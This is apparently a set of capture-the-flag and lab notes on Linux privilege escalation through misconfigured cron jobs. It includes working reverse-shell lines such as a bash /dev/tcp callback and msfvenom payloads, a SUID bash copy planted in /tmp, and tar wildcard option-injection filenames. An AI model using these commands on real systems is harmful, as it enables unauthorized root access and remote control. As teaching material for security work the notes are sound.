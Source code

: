 # 🕛 Crontab

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.\
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under:&#x20;

```bash
/etc/crontab
```

While CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

You can see the `backup.sh` script was configured to run every minute. The content of the file shows a simple script that creates a backup of the prices.xls file.

<div align="left">

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

</div>

As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges.

The script will use the tools available on the target system to launch a reverse shell.\
Two points to note;\
1\. The command syntax will vary depending on the available tools. (e.g. `nc` will probably not support the `-e` option you may have seen used in other cases)\
2\. We should always prefer to start reverse shells, as we not want to compromise the system integrity during a real penetration testing engagement.\
The file should look like this;

<div align="left">

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

</div>

We will now run a listener on our attacking machine to receive the incoming connection.

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:\
1\. System administrators need to run a script at regular intervals.\
2\. They create a cron job to do this\
3\. After a while, the script becomes useless, and they delete it

4\. They do not clean the relevant cron job\
This change management issue leads to a potential exploit leveraging cron jobs.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.\
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.

The file on the target system should look familiar:

<div align="left">

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

</div>

The incoming reverse shell connection has root privileges:

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

In the odd event you find an existing script or task attached to a cron job, it is always worth spending time to understand the function of the script and how any tool is used within the context. For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature.



***

En regardant cat /etc/crontab, on trouve un un autoscript.sh

on our host machine- let's create a payload for our cron exploit using msfvenom.&#x20;

What is the flag to specify a payload in msfvenom?

Create a payload using:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 
```

What directory is the "autoscript.sh" under?\
Lets replace the contents of the file with our payload using:

```bash
echo [MSFVENOM OUTPUT] > autoscript.sh
```

After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using:&#x20;

```bash
nc -lvnp 8888
# wait for our shell to land!
```

After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!

***

***

`cat /etc/crontab`\
There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.\
Locate the full path of the overwrite.sh file:\
`locate overwrite.sh`\
Note that the file is world-writable:\
`ls -l /usr/local/bin/overwrite.sh`\
Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.\
\#!/bin/bash\
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1\
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?\
`nc -nvlp 4444`



***

***

### Crontab PATH

View the contents of the system-wide crontab:

`cat /etc/crontab`

Note that the PATH variable starts with¬†**/home/user** which is our user's home directory.\
Create a file called **overwrite.sh** in your home directory with the following contents:

```bash
#!/bin/bashcp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:\
`chmod +x /home/user/overwrite.sh`\
Wait for the cron job to run (should not take longer than a minute).¬†Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

{% hint style="warning" %}
**Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!**
{% endhint %}

```bash
rm /tmp/rootbash
exit
```



***

***

### Cronjobs Wildcard

View the contents of the other cron job script:\
`cat /usr/local/bin/compress.sh`\
Note that the tar command is being run with a wildcard (\*) in your home directory.\
Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.\
Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp**¬†or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

```bash
chmod +x /home/user/shell.elf
```

Create these two files in /home/user:

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.\
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

{% hint style="danger" %}
**Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:**
{% endhint %}

```bash
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```
